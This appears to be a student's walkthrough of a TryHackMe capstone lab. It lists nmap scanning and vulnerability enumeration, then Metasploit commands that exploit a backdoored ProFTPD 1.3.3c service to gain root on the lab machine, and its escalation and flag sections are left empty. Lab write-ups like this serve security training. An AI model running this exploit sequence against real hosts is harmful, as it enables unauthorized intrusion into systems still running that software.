


# TryHackMe
  https://tryhackme.com/jr/mirolabscapstone
  


# Connection

`openvpn computershane\(1\).ovpn`

LHOST-`10.2.70.52` 

RHOST-`10.10.246.145`


# Scan

`nmap 10.10.246.145 `

Open ports found 

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

# Enumerate

`nmap -A -sV --script vuln 10.10.246.145`

-A for agressive scan
-sV for version detection
--script vuln for vulnerabilities

`21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.`

# Exploit

`msfconsole`

`search proftp`

`use exploit/unix/ftp/proftpd_133c_backdoor`

`show options`

set my RHOST to 10.10.246.145

set payload 2

`exploit`

failed

`set payload 0`

`exploit`

# Escalate


     
I now have Root

Sumbitted Screenshot to Professor in DM in Discord to retrieve flag for THM.

Flag

Answer-`


